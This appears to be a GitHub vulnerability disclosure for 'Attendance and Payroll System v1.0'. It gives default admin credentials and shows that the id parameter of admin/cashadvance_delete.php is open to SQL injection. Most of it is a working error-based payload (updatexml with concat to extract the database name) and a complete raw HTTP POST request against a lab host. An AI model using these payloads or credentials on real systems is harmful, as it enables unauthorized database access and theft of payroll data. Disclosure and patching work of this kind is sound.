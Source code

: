 # Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

\admin\cashadvance_delete.php has SQL injection

SQL injection because id can be closed

Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),2)--+&delete=

![image](https://user-images.githubusercontent.com/54017627/159221983-d811e070-311f-4035-b378-4d6ee33e1edf.png)

```sql
POST /apsystem/admin/cashadvance_delete.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/cashadvance.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=
```

![image](https://user-images.githubusercontent.com/54017627/159222215-a529e5fa-4b1b-4f8c-93f1-dcdec03b1aca.png)

![image](https://user-images.githubusercontent.com/54017627/159223005-0a3bebaa-d4f5-459a-bd52-b5f47fe83a1a.png)


